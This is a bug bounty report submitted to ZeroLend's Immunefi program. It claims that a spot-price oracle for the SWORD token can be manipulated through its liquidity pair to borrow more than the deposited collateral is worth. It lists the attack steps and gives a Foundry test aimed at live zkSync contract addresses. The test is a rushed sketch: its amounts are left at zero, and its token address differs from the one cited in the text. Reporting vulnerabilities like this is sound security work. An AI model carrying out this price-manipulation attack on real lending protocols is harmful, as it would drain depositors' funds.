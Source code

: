 
# Price assets deposited manipulation 

Submitted on Mar 14th 2024 at 13:49:09 UTC by @Lastc0de for [Boost | ZeroLend](https://immunefi.com/bounty/zerolend-boost/)

Report ID: #29344

Report type: Smart Contract

Report severity: Insight

Target: https://explorer.zksync.io/address/0x785765De3E9ac3D8eEb42B4724A7FEA8990142B8

Impacts:
- Direct theft of any user funds, whether at-rest or in-motion, other than unclaimed yield

## Description
## Brief/Intro
NOTE:
This vulnerability was discovered in the last hour and forgive me if there is a problem typing words as I was typing and reporting quickly before the time expired

## 
Zero Land is a fork of AAVE, so its calculations are exactly similar to AAVE calculations.

Based on this: when the user wants to borrow, he/she must first make a deposit, then based on the price that the user has deposited, the user can borrow other assets.

The value of assets that the user has deposited is taken from `AaveOracle.sol` and `AaveOracle` returns the value based on the feed specified by the owner of the protocol, but in your protocol the value can be manipulated and it can be said that all the funds in your protocol can be stolen by this method.

In your protocol, to calculate the number of assets active in your protocol, different `Pairs` pools are used to calculate the value of those assets

For this reason, your protocol is vulnerable to `price manipulation`, because price manipulation is very common and simple in `Pairs`(Ex: Uniswap), and since in your protocol, the most important tasks, such as charging, are calculated based on the value of an asset, this can cause the theft of funds. be you

## Vulnerability Details
For Ex: One of assets in your protocol is `SWORD`:

https://explorer.zksync.io/address/0xDB87A5493e308Ee0DEb24C822a559bee52460AFC

`AaveOracle.sol` wants to get the price of this, it uses the following feed:

https://explorer.zksync.io/address/0x65B28bAfDB15DD3Cb47a568FBa27fABb5b7d99d4#contract

This contract uses `_getPrice()` function to get the price:
~~~
    function _getPrice() internal view returns (int256) {
        IAggregatorV3Interface pyth = IAggregatorV3Interface(ethAggregrator);

        int256 tokenPrice = int256(pool.getAmountOut(1e18, sword));
        int256 ethOraclePrice = pyth.latestAnswer() * 1e10;

        return (tokenPrice * int256(ethOraclePrice)) / 1e28;
    }
~~~
This function returns `tokenPrice` by calling the `getAmountOut()` function in the eZKalibur `pool` address

* eZKalibur is fork from Uniswap v2.

Here the vulnerability appears in the your Oracle, it is easy to manipulate the return value of the `_getPrice()` function by minting and burning the LP token in pair, as a result, considering that your feed uses a pair and uses the return value as the assets value A attacker can easily `manipulate` the return value of `_getPrice()` and increase the amount of assets and borrow more assets and steal the funds in your protocol.



## Impact Details
Attacker, can first depasite a vulnerable token then increase its price using its pair thereby borrowing a token more than the value of something it has already deposited

## References




## Proof of Concept

NOTE : PoC only theoretically wrote that due to lack of time, vulnerability was discovered in the final hours.


1-Attacker Deposit SWORD in your protocol

2-Attacker increases the value of his asset by manipulating its Pair

3-Attacker, can borrow but more than the value of his property

4-Attacker,return back assets in Pair by burn LP Tokens

~~~
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import {Test, console2} from "forge-std/Test.sol";
import {Counter} from "../src/Counter.sol";

interface IPair {
    function mint(address to) external returns (uint liquidity);
    function burn(address to) external returns (uint amount0, uint amount1);
}

interface IERC20 {
    function transfer(address to, uint256 value) external returns (bool);
}
interface IAaveOracle {
    function getAssetPrice(address asset) external view returns (uint256);
}
contract CounterTest is Test {
    address Pair = 0xc8b6B3A4D2d8428EF3a940EAc1E32A7DdAdCB0f1;
    address WETH = 0x5AEa5775959fBC2557Cc8789bC1bf90A239D9a91;
    address SWORD = 0x240f765Af2273B0CAb6cAff2880D6d8F8B285fa4;
    address AaveOracle = 0x785765De3E9ac3D8eEb42B4724A7FEA8990142B8;


    function setUp() public {
        vm.createSelectFork("https://zksync.meowrpc.com");
        deal(SWORD,address(this), 0); //Flash loan or swap
        deal(SWORD,address(this), 0); //Flash loan or swap
        deal(WETH, address(this), 0); 
    }

    function test_Manipulation() public {
        console2.log("Asset Price Before Exploit: %e",IAaveOracle(AaveOracle).getAssetPrice(SWORD) );
        IERC20(WETH).transfer(Pair, 0); // Enter amount
        IERC20(SWORD).transfer(Pair, 0); // Enter Amount
        IPair(Pair).mint(address(this));
        console2.log("Asset Price After Exploit: %e",IAaveOracle(AaveOracle).getAssetPrice(SWORD) );

    }
}
~~~
